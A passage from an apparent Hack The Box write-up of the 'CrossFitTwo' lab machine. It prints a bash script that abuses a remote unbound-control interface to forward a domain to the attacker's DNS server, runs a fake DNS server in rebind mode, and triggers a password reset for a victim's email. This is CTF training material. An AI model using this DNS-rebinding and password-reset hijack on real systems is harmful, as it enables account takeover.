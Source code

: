 ![login.JPG](images/login.JPG)

So let's write bash script to do all of this [dns_rebind.sh](scripts/dns_rebind.sh):
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/unbound_files]
└──╼ $ cat dns_rebind.sh
#!/bin/bash
unbound-control -c unbound.conf -s 10.10.10.232@8953 forward_add +i xemployees.crossfit.htb. 10.10.14.14@9953

python3 fakedns.py -c dns.conf -p 9953 --rebind &

sleep 3
echo "FakeDNS is running..."
curl http://xemployees.crossfit.htb/password-reset.php -XPOST -d 'email=david.palmer@crossfit.htb' | grep alert

while :
do
	sleep 1
done
```
